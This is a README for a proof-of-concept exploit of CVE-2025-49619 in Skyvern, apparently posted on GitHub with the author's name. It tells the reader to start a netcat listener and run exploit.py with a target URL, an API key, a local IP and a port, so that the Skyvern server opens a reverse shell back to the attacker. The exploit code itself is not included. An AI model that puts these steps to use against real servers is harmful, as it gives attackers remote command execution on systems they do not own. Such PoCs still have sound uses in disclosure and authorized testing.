 # CVE-2025-49619 PoC

---

**This script exploits CVE-2025-49619 in Skyvern to execute a reverse shell command.**

---

## Author

- **Name:** Cristian Branet  
- **GitHub:** [cristibtz](https://github.com/cristibtz)

---

## Usage

### 1. Start a listener

```bash
nc -lvnp <PORT>
```

### 2. Run the exploit

```bash
python3 exploit.py -u "http://<TARGET_IP>:<TARGET_PORT>" -k "<X-API-KEY>" -i <LOCAL_IP> -p <PORT>
```

- `<TARGET_IP>`: Skyvern server IP
- `<TARGET_PORT>`: Skyvern server port
- `<X-API-KEY>`: Your Skyvern API key (Settings → API Key)
- `<LOCAL_IP>`: Your IP to receive the reverse shell
- `<PORT>`: Port for the reverse shell (must match your listener)

---

**Disclaimer:**  
This code is for educational and authorized testing purposes only.